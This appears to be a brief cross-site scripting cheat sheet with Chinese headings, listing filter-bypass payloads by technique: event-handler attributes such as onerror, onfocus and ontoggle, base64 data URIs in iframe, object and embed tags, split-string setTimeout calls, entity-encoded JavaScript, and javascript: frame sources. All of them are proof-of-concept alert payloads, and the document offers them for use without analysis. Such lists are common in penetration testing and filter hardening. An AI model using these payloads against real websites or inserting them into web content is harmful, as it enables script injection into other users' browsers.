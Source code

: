  

<script>标签过滤：

```
<a href="onclick=alert('xss')"> click</a>123"><a/href=//www.baidu.com/>XssTest</a>
<img src=# onerror=alert('xss')></img>
<iframe onload=alert('xss')>
```

 

**base64加密**

```
<iframe src='data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='>
```

 

**setTimeout**

```
<svg/onload=setTimeout('ale'+'rt(1)',0)>
```

 

**过滤双引号**

```
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
```

 

**chrome**

```
<img src ?itworksonchrome?\/onerror = alert(1)>
```

 

**data形式**

```
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg></object>
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg></embed>
<script src=data:%26comma;alert(1)></script>
```

 

**ontoggle**

```
<details open ontoggle="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#24050;&#26159;&#40644;&#26127;&#29420;&#33258;&#24833;&#65292;&#19968;&#26525;&#32418;&#26447;&#20986;&#22681;&#26469;&#39;&#41;">
```

 

**frame**

```
<frame src="javascript:alert(1)">
<frame src="javascript:%20%0aalert%20%0d %09(1)">
<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />2134'></textarea><script>alert(/xss/)</script><textarea>
```
